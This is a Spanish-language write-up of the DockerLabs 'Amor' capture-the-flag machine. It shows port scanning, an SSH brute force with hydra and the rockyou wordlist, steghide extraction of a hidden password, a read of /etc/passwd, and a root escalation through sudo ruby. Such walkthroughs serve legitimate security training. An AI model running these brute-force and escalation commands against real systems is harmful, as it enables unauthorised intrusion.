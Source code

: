 ```yaml
---
layout: post
title: "Amor"
date: 2024-08-21 12:40:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Amor </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/amor/host.png){:.margin}

**1\.** Comenzamos escaneando los puertos de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/amor/nmap.png){:.margin}

**2\.** En la web tenemos una pagina con algunas descripciones, por debajo encontramos usuarios como juan o carlota.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/amor/80.png){:.margin}

**3\.** Hacemos bruteforce por el ssh en busca de la contraseña, en este caso nos pilla de carlota.

`hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64`

![img](/notas/public/img/dockerlabs/amor/hydra.png){:.margin}

**4\.** Nos conectamos por ssh con las credenciales obtenidas.

`ssh carlota@172.17.0.2`

![img](/notas/public/img/dockerlabs/amor/sshcarlota.png){:.margin}

**5\.** Una vez dentro indagando un poco, encontramos una imagen, nos lo descargamos en local.

`cd Desktop/fotos/vacaciones/`

`python3 -m http.server 5000`

`wget http://172.17.0.2:5000/imagen.jpg -q`

![img](/notas/public/img/dockerlabs/amor/imagen.png){:.margin}

**6\.** Extraemos los metadatos, nos da un archivo de texto que contiene un base64, procedemos a decodificarlo.

`steghide --extract -sf imagen.jpg`

![img](/notas/public/img/dockerlabs/amor/decode.png){:.margin}

**7\.** Revisamos los usuarios del sistema, por otro lado revisamos las variables de entorno donde encontramos un mensaje. 

`grep sh$ /etc/passwd`

`env`

![img](/notas/public/img/dockerlabs/amor/msg.png){:.margin}

**8\.** Migramos al usuario oscar con la contraseña decodificada de base64.

`su oscar`

`script /dev/null -c bash`

![img](/notas/public/img/dockerlabs/amor/suoscar.png){:.margin}

**9\.** Revisando los permisos sudo encontramos el binario ruby con todos los permisos.

`sudo -l`

![img](/notas/public/img/dockerlabs/amor/sudol.png){:.margin}

**10\.** Escalamos a root con este metodo de [gtfobins](https://gtfobins.github.io/gtfobins/ruby/#sudo).

`sudo ruby -e 'exec "/bin/sh"'`

![img](/notas/public/img/dockerlabs/amor/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>